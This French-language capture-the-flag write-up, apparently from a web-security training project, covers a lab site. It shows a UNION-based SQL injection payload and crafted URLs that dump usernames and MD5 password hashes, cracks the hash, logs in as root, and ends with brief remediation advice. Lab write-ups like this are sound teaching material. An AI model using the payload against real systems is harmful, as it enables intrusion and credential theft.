 # Explication

Nom de la faille:  Member_Brute_Force

Aller sur l'URL:  `http://IP_DARKLY/index.php?page=searchimg`

Il y a un input afin de chercher une image.

Commme expliqué précedemment, on a réussi à obtenir le schéma complet de la base SQL.

Pour cette faille là, on va se concentrer sur la table Member_Brute_Force.db_default qui a pour colonnes:
    `username, password`

En faisaint l'injection SQL:
```
	 1 OR 1=1 UNION select username, password FROM Member_Brute_Force.db_default 
```

http://10.11.200.169/index.php?page=searchimg&id=1+OR+1%3D1+UNION+select+username%2C+password+FROM+Member_Brute_Force.db_default+&Submit=Submit#

On trouve 2 `username` avec le même `password`.

```
    root : 3bf1114a986ba87ed28fc1b5884fc2f8
    admin : 3bf1114a986ba87ed28fc1b5884fc2f8
```

On decrypte le hash 3bf1114a986ba87ed28fc1b5884fc2f8 avec md5, on obtient alors `shadow`.

http://10.11.200.169/?page=signin&username=root&password=shadow&Login=Login#

On peut alors se logguer avec l'identifiant `admin` et `root` avec ce mot de passe. On otient alors le flag.

# Comment profiter de la faille ?

Une injection SQL peut mener à une destruction ou vol de données confidentielles.

Par exemple : vol de mots de passes, adresses email, ...

# Comment la fixe ?

Une des solutions les plus simples pour se prémunir de ce genre d'injections, il est possible d'utiliser différents outils (mySqli, PDO, ...).
Manuellement, cela consiste à vérifier qu'il n'y a aucun opérateur SQL dans la variable injectée.

# Autre manière de trouver la faille

Comme le nom l'indique, on peut brute force le nom et le mot de passe très facilement étant donnée la faiblesse de ce dernier.